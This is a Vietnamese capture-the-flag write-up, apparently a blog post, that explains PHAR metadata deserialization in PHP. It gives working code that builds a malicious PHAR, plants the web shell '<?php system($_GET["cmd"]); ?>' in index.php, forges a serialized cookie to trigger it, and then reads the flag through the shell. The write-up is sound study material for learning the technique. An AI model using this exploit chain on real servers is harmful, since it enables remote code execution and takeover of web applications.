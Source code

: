 +++
title = "PHAR type shit"
description = 'dòng dưới'
date = 2025-09-03
+++

![](1.png)

Challenge này là về PHAR (PHP Archive). Ta có thể đơn giản hiểu PHAR là 1 kiểu file nén được thiết kế cho PHP, thường chứa file và metadata. PHAR có 1 đặc điểm là nếu ta gọi các hàm như file_exists(), md5_file(), getimagesize() … với đường dẫn bắt đầu bằng `phar://`, thì PHP sẽ tự động giải nén PHAR và unserialize phần metadata

* Nghĩa là: nếu trong metadata có 1 object PHP, thì nó sẽ được unserialize → kích hoạt `__destruct()` / `__wakeup()` / `__toString()` trong class đó.

Sử dụng lỗ hổng này, ta có thể giải chall này như sau:

* Ta có thể upload avatar (ảnh) và server cho phép unserialize cookie `user`
* Trong code có class `LogFile::__destruct()` chạy `md5_file($this->filename)`
* Nếu `$this->filename` là một đường dẫn `phar://...`, thì PHP sẽ giải nén metadata của file PHAR, và unserialize object chứa trong đó (không bị giới hạn bởi `allowed_classes`).

Tạo payload PHAR:

```
<?php
class Logger {
    public function __destruct() { }
}
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("<?php __HALT_COMPILER(); ?>");

// payload: ghi PHP shell vào file index.php
$object = new Logger();
$object->logs = '/var/www/html/index.php'; 
$object->request = '<?php system($_GET["cmd"]); ?>';

$phar->setMetadata($object);
$phar->stopBuffering();
```

**Trong metadata của PHAR, ta nhét một object `Logger`. Object này có property `$logs` (đường dẫn file sẽ ghi) và `$request` (nội dung ghi vào). Khi bị unserialize và chạy destructor, nó sẽ mở file `$logs` rồi ghi `$reques`t vào → chèn shell vào index.php.**

Tiếp là tạo cookie `user`:

```
<?php
class LogFile { public $filename; }
$o = new LogFile();
$o->filename = "phar://upload/<username>/shell.jpg";
echo base64_encode(serialize($o));
```

Từ đó sử dụng cookie ta vừa gen được, khi hệ thống unserialize cookie này, destructor `LogFile::__destruct()` chạy:

```
md5_file("phar://upload/<username>/shell.jpg")
```

Việc gọi md5_file trên `phar://` sẽ tự động unserialize metadata → lúc này object `Logger` được kích hoạt.

Cuối cùng sử dụng `curl` hoặc Burp Suite, truy cập vào `/?page=index.php&cmd=cat+/flag.txt` kèm cookie vừẽa rồi, lệnh `system()` sẽ in nội dung flag.